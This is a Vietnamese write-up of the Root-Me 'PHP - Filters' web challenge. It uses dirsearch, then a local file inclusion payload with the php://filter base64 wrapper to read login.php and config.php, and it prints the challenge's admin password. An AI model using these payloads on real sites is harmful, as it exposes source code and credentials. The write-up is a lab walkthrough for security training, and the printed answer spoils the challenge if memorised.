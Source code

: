 # [PHP - Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## Solutions

- Sử dụng dirsearch thì có thấy một file config.php

```text
200 -    0B  - /web-serveur/ch12/config.php
```

- Khi ấn vào nút login hoặc home thì thấy url có dạng `http://challenge01.root-me.org/web-serveur/ch12/?inc=accueil.php`

- Thay đổi query parameter:
  - inc=config.php: không có gì xảy ra
  - inc=../../: `open_basedir restriction in effect`, server không cho include file ngoài thư mục `/challenge/web-serveur/ch12`

- Tên đề bài là PHP - filters: thử dùng php wrapper với filter `convert.base64-encode`:
  - `inc=php://filter/convert.base64-encode/resource=login.php`: response có chứa một đoạn base64encoded, decode ra được:

    ```php
    <?php
    include("config.php");

    if ( isset($_POST["username"]) && isset($_POST["password"]) ){
        if ($_POST["username"]==$username && $_POST["password"]==$password){
        print("<h2>Welcome back !</h2>");
        print("To validate the challenge use this password<br/><br/>");
        } else {
        print("<h3>Error : no such user/password</h2><br />");
        }
    } else {
    ?>
    ```

  - Tương tự thử với `inc=php://filter/convert.base64-encode/resource=config.php` và cũng decode, ta lấy được credential:

  ```php
  <?php
  $username="admin";
  $password="DAPt9D2mky0APAF";
  ```

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Local%20File%20Inclusion.pdf?_gl=1>.
- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Remote%20File%20Inclusion%20and%20Local%20File%20Inclusion%20explained.pdf?_gl=1>.
- <https://medium0.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb>
